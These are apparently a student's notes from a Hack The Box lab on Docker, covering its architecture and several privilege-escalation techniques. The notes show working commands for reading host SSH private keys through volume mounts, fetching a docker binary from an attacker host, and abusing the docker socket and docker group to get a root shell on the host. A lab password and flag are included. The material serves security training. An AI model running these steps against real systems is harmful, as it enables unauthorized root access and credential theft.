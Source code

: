 # Docker

## Docker Architecture

At the core of the Docker architecture lies a client-server model, where we have two primary components:

The Docker daemon
- running Docker containers
- interacting with Docker containers
- managing Docker containers on the host system.

The Docker client

Have the ability to create, start, stop, manage, remove containers, search, and download Docker images.

Another client for Docker is Docker Compose.

Docker image : blueprint or a template for creating containers. It encapsulates everything needed to run an application, including the application's code, dependencies, libraries, and configurations.

--> We can create images using a text file called a Dockerfile

Docker container is an instance of a Docker image

While images are immutable and read-only, while containers are mutable and can be modified during runtime

## Docker Privilege Escalation

### Docker Shared Directories

When using Docker, shared directories (volume mounts) can bridge the gap between the host system and the container's filesystem.

--> Shared directories can be mounted as read-only or read-write

root@container:~$ cd /hostsystem/home/cry0l1t3
root@container:/hostsystem/home/cry0l1t3$ ls -l

-rw-------  1 cry0l1t3 cry0l1t3  12559 Jun 30 15:09 .bash_history
-rw-r--r--  1 cry0l1t3 cry0l1t3    220 Jun 30 15:09 .bash_logout
-rw-r--r--  1 cry0l1t3 cry0l1t3   3771 Jun 30 15:09 .bashrc
drwxr-x--- 10 cry0l1t3 cry0l1t3   4096 Jun 30 15:09 .ssh


root@container:/hostsystem/home/cry0l1t3$ cat .ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----

ssh cry0l1t3@<host IP> -i cry0l1t3.priv

### Docker Sockets

Docker daemon socket is a special file that allows us and processes to communicate with the Docker daemon.

htb-student@container:~/app$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock

--> use the docker to interact with the socket and enumerate what docker containers are already running

wget https://<parrot-os>:443/docker -O docker
chmod +x docker
ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker

/tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>

Create our own Docker container that maps the host’s root directory (/) to the /hostsystem directory :

/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app

/tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>

Log in to the new privileged Docker container with the ID 7ae3bcc818af and navigate to the /hostsystem :

/tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash
cat /hostsystem/root/.ssh/id_rsa

### Docker Group

id
uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)

docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB

### Docker Socket

docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@ubuntu:~# ls -l

## LAB

ssh htb-student@10.129.205.237
HTB_@cademy_stdnt!

id
uid=1001(htb-student) gid=1001(htb-student) groups=1001(htb-student),118(docker)

docker image ls
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
ubuntu       latest    5a81c4b8502e   7 months ago   77.8MB

docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@e0350a66ecc5:/# cat /root/flag.txt
HTB{D0ck3r_Pr1vE5c}
